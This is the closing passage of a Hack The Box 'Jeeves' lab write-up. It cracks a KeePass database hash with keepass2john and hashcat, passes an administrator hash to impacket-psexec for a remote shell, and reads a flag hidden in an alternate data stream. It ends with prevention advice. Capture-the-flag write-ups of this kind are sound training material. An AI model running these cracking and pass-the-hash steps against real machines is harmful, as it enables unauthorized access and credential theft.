With keepass2john we extract the hash and try to crack it
b4go@parrot-~/HTB/Jeeves $ /home/b4go/john/run/keepass2john /tmp/smbshare/CEH.kdbx > keepass.hash
b4go@parrot-~/HTB/Jeeves $ ls
50438.txt jeeves.gnmap jeeves.nmap jeeves.xml keepass.hash
b4go@parrot-~/HTB/Jeeves $ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --show
$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1
The password is moonshine1
Finally we find the administrator hash in the keepass file and login
b4go@parrot-~/HTB/Jeeves $ impacket-psexec administrator@10.10.10.63 -hashes (...)
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file KPsEmkvD.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service YokO on 10.10.10.63.....
[*] Starting service YokO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.
flag is not in desktop, we look deeper

C:\Users\Administrator\Desktop> dir /R
Volume in drive C has no label.
Volume Serial Number is 71A1-6FA1
Directory of C:\Users\Administrator\Desktop
11/08/2017 10:05 AM .
11/08/2017 10:05 AM ..
12/24/2017 03:51 AM 36 hm.txt
34 hm.txt:root.txt:$DATA
11/08/2017 10:05 AM 797 Windows 10 Update Assistant.lnk
2 File(s) 833 bytes
2 Dir(s) 2,604,093,440 bytes free
C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4******
dir /R command will show us the **alternate data streams (ADS)** of files, it is like hidden parts of a file that don’t show up in a normal `dir` listing. Good to have in mind whenever we look for something we expect to be somewhere.
Conclusion
Jeeves showed how an exposed Jenkins instance, combined with weak internal controls, can lead to a full domain compromise. What started as basic web fuzzing turned into code execution through the script console, and from there, poor credential hygiene handed over the keys. It’s a good reminder that internal tooling can pose just as much risk as public-facing apps if not properly secured.
Prevention:
- Restrict access to the script console and tie it to role-based permissions
- Regularly audit and rotate credentials stored in password managers.
- Enforce least privilege across user accounts and services